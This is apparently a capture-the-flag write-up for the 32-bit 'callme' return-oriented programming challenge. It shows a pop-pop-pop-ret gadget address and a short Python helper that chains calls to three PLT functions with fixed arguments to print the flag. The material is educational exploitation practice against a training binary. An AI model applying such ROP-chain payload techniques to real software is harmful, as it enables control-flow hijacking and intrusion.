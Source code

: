 # callme - 32bit

This challenge involves consistently calling functions imported via the PLT.


Instructions:
```
You must call `callme_one()`, `callme_two()` and `callme_three()` in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag.
```
As we need to impersonate a `call` function we need to pop all three arguments off of the stack into registers. We will require gadgets to perform this.

ROPGadget shows us the perfect gadget:
```
0x080488a9 : pop esi ; pop edi ; pop ebp ; ret
```

This will place the parameters in the correctly place.

This gives us a structure per call like so:

```python
def call_function(function):

    payload = b""
    payload += function
    payload += pop_gadget
    payload += p32(1)
    payload += p32(2)
    payload += p32(3)
    return payload
```

This will then be repeated for each function. Running this chain produces the flag